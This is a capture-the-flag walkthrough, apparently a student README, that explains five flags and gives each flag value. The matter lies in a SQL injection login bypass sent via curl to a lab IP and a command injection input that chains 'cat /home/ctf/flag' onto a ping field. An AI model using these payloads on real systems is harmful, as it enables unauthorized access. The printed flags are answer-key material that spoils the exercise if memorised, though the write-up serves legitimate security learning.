 # CTF Walkthrough

This document explains the steps and methods used to capture each flag in the CTF challenge.

## FLAG1: SQL Injection (Login Form)
**SSS{yummy_and_nutritious}**\
To capture **FLAG1**, I used an **SQL Injection** on the login form. Here’s how I did it:

- **Username**: `admin'--`
- **Password**: `'`
  
I sent the following request using `curl`:

curl -X POST -d "username=admin'--&password=''" http://141.85.224.116:8083/login.php

This allowed me to bypass the login form and retrieve the flag.

## FLAG2: Command Injection (Ping Command)
**SSS{hey_man_stop_pinging_around}**\
For **FLAG2**, I exploited a **command injection** vulnerability on the server. I used the following input:

141.85.224.116 -c 1; cat /home/ctf/flag
- The -c 1 flag made the ping command send just one packet.
- The ; operator allowed me to escape the ping command and execute arbitrary commands, in this case, reading the flag from the file /home/ctf/flag.

## FLAG3: Cookie Modification (Burp Suite)
**SSS{hansel_gretel}**
- Intercepted the GET request in Burp Suite
- I set the FLAG cookie to applepie 
- Sent the request and got the flag from the response header 

## FLAG4: Caesar Cipher Decryption
**SSS{every_file_has_feelings}**\
For FLAG4, I discovered the flag in the source code of the site. The following parts were found:
- First Part: FFF{rirel_
- Second Part: svyr_
- Third Part: unf_
- Fourth Part: srryvatf}
Upon noticing that FFF should be SSS (a Caesar cipher shift of 13), I decrypted the flag by shifting each letter back by 13 positions using an online tool.
- Decryption Tool: https://cryptii.com/pipes/caesar-cipher

## FLAG5: Base64 Decoding
# SSS{cage_travolta}\
For FLAG5, I inspected the source files of the site and found a Base64 encoded string within a comment. I decoded it with the following command:
**echo "U1NTe2NhZ2VfdHJhdm9sdGF9Cg==" | base64 --decode**
This gave me the final flag.
